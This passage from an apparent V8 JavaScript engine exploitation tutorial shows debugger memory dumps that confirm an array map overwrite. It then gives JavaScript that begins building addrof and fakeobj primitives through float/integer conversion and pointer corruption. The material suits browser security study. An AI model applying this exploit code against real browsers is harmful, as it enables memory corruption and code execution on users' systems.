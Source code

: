 The isolate root here is the `0x0000365100000000`, we can add the lower 32 bits of the elements pointer i.e. `0x8084ec1` to get the absolute address of the elements pointer, let's see if we successfully overwritten the map or not.

```asm
gef➤  x/40xg 0x0000365100000000 + 0x8084ec1  - 1
0x365108084ec0:	0x0000000608042a31	0x3ff199999999999a
0x365108084ed0:	0x400199999999999a	0x400a666666666666
0x365108084ee0:	0x0000000a00000539	0x0000000a08084ec1
```
If you can pay attention to the `0x365108084ee0` address, we have lower 32 bits address written with `0x539` which is the hex value of `1337`. We overwritten the map successfully. Now, it's time to leverage this to get `fakeobj` and `addrof` primitive.

# `fakeobj` and `addrof` primtive

First off, we will go over the `addrof` primitive, this primitive allow us to read the address of a arbitrary JS Object and on the other hand the `fakeobj` allow us to inject a fake JS Object into the V8 engine.
Now, we need to replicate these two primitives, let's do it:-

```js
var aux_obj = {"a": 1}
var aux_obj_arr = [aux_obj];
var aux_float_arr = [1.1, 2.2, 3.3];
var aux_arr = aux_float_arr.slice(aux_float_arr)

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val, size) {

    f64_buf[0] = val;

    if(size == 32) {
        return BigInt(u64_buf[0]);
    } else if(size == 64) {
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

}

function itof(val, size) {

    if(size == 32) {
        u64_buf[0] = Number(val & 0xffffffffn);
    } else if(size == 64) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
    }

    return f64_buf[0];

}

var flt_arr_map = ftoi(aux_arr[3], 32);
var elem_arr_ptr = ftoi(aux_arr[4], 32);
console.log("[+] Float array map: 0x" + flt_arr_map.toString(16));
console.log("[+] Pointer to array elements: 0x" + elem_arr_ptr.toString(16));

var elem_obj_arr = elem_arr_ptr - 0xc4n
aux_arr[4] = itof((ftoi(aux_arr[4], 64) & 0xffffffff00000000n) + elem_obj_arr, 64);

```